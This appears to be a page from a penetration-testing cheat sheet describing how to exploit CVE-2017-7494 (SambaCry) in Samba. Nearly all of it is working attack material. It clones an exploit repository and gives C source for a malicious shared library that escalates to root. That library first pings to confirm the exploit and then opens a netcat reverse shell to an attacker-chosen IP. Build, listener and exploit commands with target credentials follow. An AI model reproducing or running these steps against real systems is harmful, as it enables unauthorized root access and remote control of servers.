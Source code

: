 ```
```

### CVE-2017-7494

```
# Download exploit code
git clone https://github.com/joxeankoret/CVE-2017-7494
```

Create a new file named poc.c :

```
#include <stdio.h>
#include <stdlib.h>

int samba_init_module(void)
{
	setresuid(0,0,0);
	system("ping -c 3 <IP>");
}
```

```
# Build
gcc -o test.so -shared poc.c -fPIC
```

```
# Start an ICMP listener
sudo tcpdump -i <INTERFACE> icmp

# Exploit
./cve_2017_7494.py -t <TARGET_IP> -u <USER> -P <PASSWORD> --custom=test.so
```

If you reiceve 3 pings on your listener then the exploit works. Now let's get a shell :

```
#include <stdio.h>
#include <stdlib.h>

int samba_init_module(void)
{
	setresuid(0,0,0);
	system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP> <PORT> >/tmp/f");
}
```

```
# Build
gcc -o test.so -shared poc.c -fPIC
```

```
# Start a listener
nc -lvp <PORT>

# Exploit
./cve_2017_7494.py -t <TARGET_IP> -u <USER> -P <PASSWORD> --custom=test.so
```
